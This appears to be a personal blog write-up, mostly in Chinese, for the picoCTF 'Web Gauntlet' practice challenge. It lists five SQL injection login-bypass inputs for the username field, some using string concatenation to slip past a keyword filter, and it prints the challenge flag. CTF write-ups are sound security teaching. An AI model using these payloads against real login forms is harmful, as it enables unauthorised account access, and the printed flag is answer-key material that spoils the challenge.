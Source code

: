 ```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-29 10:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


## Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

## Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

```
1. admin';--
2. admin';0x2d2d
3. admin';0x2d2d
4. ad'||'min';0x2d2d
5. ad'||'min';0x2d2d
```

## Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}